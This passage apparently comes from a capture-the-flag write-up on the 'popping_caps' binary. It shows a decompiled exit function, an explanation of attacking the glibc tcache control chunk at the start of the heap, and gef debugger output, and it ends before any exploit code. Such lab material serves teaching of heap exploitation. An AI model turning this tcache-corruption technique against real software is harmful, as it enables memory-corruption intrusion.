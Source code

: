 ```
void bye(void)

{
  fwrite(&DAT_00100d04,1,4,stdout);
  malloc(0x38);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

## Exploitation

So for exploiting this code, we will be attacking the tcache. Particularly where the tcache stores the beginning of the various linked lists that makes up the tcache, and the corresponding counts. This is stored in a chunk at the beginning of the heap. For a better understanding of this, let's take a look at it:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x000056054637b000 0x000056054637c000 0x0000000000000000 r-x /home/guyinatuxedo/Desktop/popping/popping_caps
0x000056054657c000 0x000056054657d000 0x0000000000001000 rw- /home/guyinatuxedo/Desktop/popping/popping_caps
0x0000560548324000 0x0000560548345000 0x0000000000000000 rw- [heap]
0x00007f1e4b9c3000 0x00007f1e4bbaa000 0x0000000000000000 r-x /home/guyinatuxedo/Desktop/popping/libc.so.6
0x00007f1e4bbaa000 0x00007f1e4bdaa000 0x00000000001e7000 --- /home/guyinatuxedo/Desktop/popping/libc.so.6
0x00007f1e4bdaa000 0x00007f1e4bdae000 0x00000000001e7000 r-- /home/guyinatuxedo/Desktop/popping/libc.so.6
0x00007f1e4bdae000 0x00007f1e4bdb0000 0x00000000001eb000 rw- /home/guyinatuxedo/Desktop/popping/libc.so.6
0x00007f1e4bdb0000 0x00007f1e4bdb4000 0x0000000000000000 rw-
0x00007f1e4bdb4000 0x00007f1e4bddb000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f1e4bfd9000 0x00007f1e4bfdb000 0x0000000000000000 rw-
0x00007f1e4bfdb000 0x00007f1e4bfdc000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f1e4bfdc000 0x00007f1e4bfdd000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f1e4bfdd000 0x00007f1e4bfde000 0x0000000000000000 rw-
0x00007ffc5924c000 0x00007ffc5926d000 0x0000000000000000 rw- [stack]
0x00007ffc593ce000 0x00007ffc593d1000 0x0000000000000000 r-- [vvar]
0x00007ffc593d1000 0x00007ffc593d2000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/100g 0x0000560548324000
0x560548324000: 0x0 0x251
0x560548324010: 0x0 0x0
0x560548324020: 0x0 0x0
0x560548324030: 0x0 0x0
0x560548324040: 0x0 0x0
0x560548324050: 0x0 0x0
0x560548324060: 0x0 0x0
0x560548324070: 0x0 0x0
0x560548324080: 0x0 0x0
0x560548324090: 0x0 0x0
0x5605483240a0: 0x0 0x0
0x5605483240b0: 0x0 0x0
0x5605483240c0: 0x0 0x0
0x5605483240d0: 0x0 0x0
0x5605483240e0: 0x0 0x0
0x5605483240f0: 0x0 0x0
0x560548324100: 0x0 0x0
0x560548324110: 0x0 0x0
0x560548324120: 0x0 0x0
```